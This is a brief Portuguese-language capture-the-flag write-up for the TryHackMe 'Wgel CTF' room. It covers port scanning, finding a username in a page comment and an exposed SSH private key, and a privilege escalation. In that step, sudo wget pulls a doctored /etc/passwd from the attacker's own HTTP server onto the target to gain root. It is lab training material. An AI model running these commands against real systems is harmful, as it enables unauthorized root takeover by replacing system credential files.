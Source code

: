 # Wgel CTF
https://tryhackme.com/room/wgelctf

## Recon

### NMAP

    PORT  STATE  SERVICE
    22    open    OpenSSH 7.2p2
    80    http    Apache 2.4.18

### Web

- Ao inspecionar elemento do site, existe um comentário para o usuário "jessie"
- Existe um diretório /sitemap/.ssh com uma chave privada

## Privesc

- O wget executa como root, com isso basta salvar */etc/passwd* na máquina hacker para inserir uma nova senha root, e deixar esse arquivo acessível:

```sh
python3 -m http.server #na máquina hacker
sudo -u root /usr/bin/wget <IP hacker>:8000/passwd -O /etc/passwd #máquina alvo
su root #com a nova senha
```
